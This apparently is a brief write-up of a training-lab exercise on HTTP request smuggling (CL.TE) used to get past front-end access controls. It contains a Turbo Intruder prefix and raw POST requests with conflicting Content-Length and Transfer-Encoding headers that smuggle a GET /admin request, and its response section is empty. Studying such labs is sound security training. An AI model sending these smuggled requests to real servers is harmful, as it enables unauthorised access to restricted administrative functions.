
#### Bypass front-end security controls 
##### CL.TE vulnerability

 _Turbo truder initial config

 >   # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GET /admin HTTP/1.1
`X-Ignore: X'''
- 1st request

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
```

```
GET /admin HTTP/1.1
X-Ignore: X
```

---
- 2nd, 3rd, 4th & 5th
---

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
```


---
Response:

---
